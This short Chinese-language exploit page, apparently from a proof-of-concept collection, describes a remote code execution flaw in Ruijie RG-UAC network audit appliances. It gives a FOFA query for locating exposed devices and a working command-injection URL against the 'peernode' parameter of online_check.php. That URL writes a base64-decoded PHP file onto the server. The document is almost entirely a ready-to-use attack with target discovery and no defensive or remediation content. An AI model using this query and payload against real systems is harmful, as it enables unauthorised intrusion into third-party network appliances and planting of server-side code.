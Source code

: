 ## RG-UAC锐捷统一上网行为管理与审计系统存在远程代码执行漏洞

## fofa
```
app="Ruijie-RG-UAC"
```


## poc
```
/view/vpn/autovpn/online_check.php?peernode= | `echo PD9waHAgcGhwaW5mbygpOw== | base64 -d > 1.php`

```

![image](../../images/a10f13fb-884b-4c74-b912-f08936bb25ff.png)
